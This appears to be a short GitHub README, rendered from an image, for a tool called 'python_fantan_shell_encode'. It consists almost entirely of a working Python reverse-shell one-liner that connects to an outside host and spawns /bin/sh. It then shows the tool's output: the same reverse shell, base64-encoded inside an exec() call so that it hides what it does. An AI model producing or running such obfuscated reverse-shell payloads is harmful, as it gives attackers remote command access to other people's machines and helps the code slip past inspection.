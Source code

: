 # python_fantan_shell_encode
base64 encoding this: python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.0.0.1″,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);’


<p>
➜   python netcat_encode.py 192.168.1.4 2015
<p>
python -c "exec( __import__( 'base64' ).decodestring( 'cz1fX2ltcG9ydF9fKCdzb2NrZXQnKS5zb2NrZXQoX19pbXBvcnRfXygnc29ja2V0JykuQUZfSU5F\nVCxfX2ltcG9ydF9fKCdzb2NrZXQnKS5TT0NLX1NUUkVBTSk7IHMuY29ubmVjdCgoJzE5Mi4xNjgu\nMS40JywgMjAxNSkpOyBfX2ltcG9ydF9fKCdvcycpLmR1cDIocy5maWxlbm8oKSwwKTsgX19pbXBv\ncnRfXygnb3MnKS5kdXAyKHMuZmlsZW5vKCksMSk7IF9faW1wb3J0X18oJ29zJykuZHVwMihzLmZp\nbGVubygpLDIpOyBwPV9faW1wb3J0X18oJ3N1YnByb2Nlc3MnKS5jYWxsKFsnL2Jpbi9zaCcsJy1p\nJ10p\n' ) )"

